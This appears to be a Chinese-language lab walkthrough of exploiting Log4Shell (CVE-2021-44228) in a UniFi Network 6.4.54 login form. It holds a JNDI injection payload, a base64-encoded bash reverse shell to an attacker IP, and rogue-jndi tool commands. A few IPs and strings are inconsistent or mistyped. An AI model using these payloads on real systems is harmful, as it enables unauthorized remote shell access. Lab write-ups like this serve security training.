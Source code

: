 ###  一、信息收集

1. nmap扫描

```shell
    nmap -sC -sV -v  10.129.150.132
    # 出现端口 22,6789,8080,8443
    # 可能利用思路：
    # 1. 对ssh服务进行弱口令爆破，概率不大
    # 2. 8080端口为web界面，跳转到8443端口，从这点突破
```

2.  url利用
```shell
 https://10.129.150.132:8443/manage/account/login?redirect=%2Fmanage
 # 该页面为登录页面
 # 尝试文件包含漏洞，但是无效
```

3. 敏感信息利用
```shell
    UniFi Network 6.4.54
    # 标题和界面都出现该信息，尝试网络搜索发现可能存在 log4J 漏洞利用（CVE-2021-44228）  
```

### 二、漏洞利用
因为存在 log4J 漏洞利用（CVE-2021-44228），所以利用该漏洞获取webshell，按照网络提供的工具和步骤进行操作

1.  验证漏洞是否存在
- 获取注入请求包
```shell
    # 因为登录页面，尝试登录后抓取请求包，并转化为`curl`访问模式
    curl 'https://10.129.215.139:8443/api/login' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 6666666666OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15' -H 'Accept: */*' -H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' --compressed -H 'Referer: https://10.129.215.139:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://10.129.215.139:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"admin","password":"admin","remember":true,"strict":true}'
```
>  根据该数据包进行验证和利用

- 准备payload
```shell
 # 只需要更改数据体
 --data-raw '{"username":"admin","password":"admin","remember":true,"strict":true}'
 # 返回结果：{"meta":{"rc":"error","msg":"api.err.Invalid"},"data":[]} 
 调整为
 --data-raw '{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.17.49/whatever}","strict":true}'
 # 返回结果："meta":{"rc":"error","msg":"api.err.InvalidPayload"},"data":[]}  
```

- 监听本地端口
```shell
    tcpdump -i tun0 port 389  
    # tun0:本地接口
    # 如果389有数据返回，则证明存在该漏洞，可以进行利用
 ```


2. 漏洞利用
-  工具利用环境安装
```shell
    # 准备工具rogue-jndi的环境
    apt install openjdk-11-jdk -y
    apt install maven
    # 下载和安装工具rogue-jndi,并构建工具RogueJndi-1.1.jar
    git clone https://github.com/veracode-research/rogue-jndi
    cd rogue-jndi
    mvn package
```

-  准备反弹shell
```shell
    # 对反弹shell进行base64编码
    echo 'bash -c bash -i >&/dev/tcp/10.10.17.49/4444 0>&1' | base64
    # 结果：YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTcuNDkvNDQ0NCAwPiYxCg==
```

- 启动监听端口来获取反弹shell
> nc -lvnp 4444

- 利用工具生成payload
```shell
    #运行脚本获取payload
    java -jar target/RogueJndi-1.1.jar --command "bash -c
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-
d}|{bash,-i}" --hostname "10.10.14.33"
    # 结果: ${jndi:ldap://10.10.14.331389/o=tomcat} 
```

因此,只要把该利用payload替换，校验payload就可以获取webshell